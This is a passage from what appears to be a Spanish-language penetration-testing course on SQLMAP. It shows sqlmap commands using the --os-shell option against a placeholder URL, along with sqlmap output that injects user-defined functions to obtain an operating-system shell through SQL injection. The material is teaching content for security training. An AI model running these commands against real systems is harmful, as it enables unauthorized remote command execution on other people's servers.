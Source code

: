 Ahora que confirmamos que podríamos escribir un shell PHP para obtener la ejecución de comandos, podemos probar la capacidad de SQLMAP de darnos un shell de sistema operativo fácil sin escribir manualmente un shell remoto. SQLMAP utiliza varias técnicas para obtener un shell remoto a través de vulnerabilidades de inyección SQL, como escribir un shell remoto, como lo hicimos, escribiendo funciones SQL que ejecutan comandos y recuperan la salida o incluso utilizan algunas consultas SQL que ejecutan directamente el comando del sistema operativo, como`xp_cmdshell`En Microsoft SQL Server. Para obtener un shell del sistema operativo con SQLMAP, podemos usar el`--os-shell`Opción, como sigue:

Explotación del sistema operativo

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --os-shell        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.11#stable}|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 18:02:15 /2020-11-19/

[18:02:16] [INFO] resuming back-end DBMS 'mysql'
[18:02:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[18:02:37] [INFO] the local file '/tmp/sqlmapmswx18kp12261/lib_mysqludf_sys8kj7u1jp.so' and the remote file './libslpjs.so' have the same size (8040 B)
[18:02:37] [INFO] creating UDF 'sys_exec' from the binary UDF file
[18:02:38] [INFO] creating UDF 'sys_eval' from the binary UDF file
[18:02:39] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
[18:02:39] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la
do you want to retrieve the command standard output? [Y/n/a] a

[18:02:45] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
No output

```

Vemos que SQLMAP predeterminado a`UNION`técnica para obtener un shell del sistema operativo, pero finalmente no pudo darnos ninguna salida`No output`. Entonces, como ya sabemos, tenemos múltiples tipos de vulnerabilidades de inyección SQL, intentemos especificar otra técnica que tenga una mejor oportunidad de darnos una salida directa, como la`Error-based SQL Injection`, que podemos especificar con`--technique=E`:

Explotación del sistema operativo

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.11#stable}|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 18:05:59 /2020-11-19/

[18:05:59] [INFO] resuming back-end DBMS 'mysql'
[18:05:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
```